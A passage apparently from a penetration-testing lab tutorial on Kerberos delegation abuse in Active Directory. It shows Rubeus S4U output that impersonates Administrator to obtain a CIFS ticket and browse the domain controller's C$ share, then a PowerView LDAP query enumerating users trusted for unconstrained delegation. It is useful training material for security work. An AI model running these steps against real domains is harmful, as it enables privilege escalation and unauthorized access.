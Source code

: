 ```powershell-session

  v2.2.2

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'DC01$@INLANEFREIGHT.LOCAL'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Sending S4U2self request to 172.16.99.3:88
[+] S4U2self success!
[*] Substituting alternative service name 'CIFS/dc01.inlanefreight.local'
[*] Got a TGS for 'Administrator' to 'CIFS@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):
<SNIP>
```

This command allows us to impersonate `Administrator` and request a service ticket for the `CIFS` service, enabling SMB connections as the impersonated user. This method is particularly useful for scenarios where we have a ticket from a computer that is not a domain controller.
```powershell-session
PS C:\Tools> ls \\dc01.inlanefreight.local\c$

    Directory: \\dc01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/3/2023   2:58 PM                carole.holmes
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/6/2021   3:50 PM                Program Files
d-----        4/12/2023   3:24 PM                Program Files (x86)
d-----        3/30/2023  11:08 AM                Shares
d-----         4/4/2023   1:49 PM                Tools
d-----        3/30/2023   3:13 PM                Unconstrained
d-r---         4/4/2023  11:34 AM                Users
d-----       10/14/2022   6:49 AM                Windows
```

---
# Unconstrained Delegation in Users Account

Users in Active Directory can also be configured for unconstrained delegation, and it's quite different to exploit. To get a list of user accounts with this flag set, we can use the PowerView function [Get-DomainUser](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/) with a specific LDAP filter that will look for users with the `TRUSTED_FOR_DELEGATION` flag set in their UAC.

#### PowerView Enumeration Unconstrained Delegation
```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

logoncount            : 0
badpasswordtime       : 12/31/1600 7:00:00 PM
distinguishedname     : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass           : {top, person, organizationalPerson, user}
name                  : sqldev
objectsid             : S-1-5-21-2974783224-3764228556-2640795941-1110
samaccountname        : sqldev
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 12/31/1600 7:00:00 PM
countrycode           : 0
whenchanged           : 8/4/2020 4:49:56 AM
```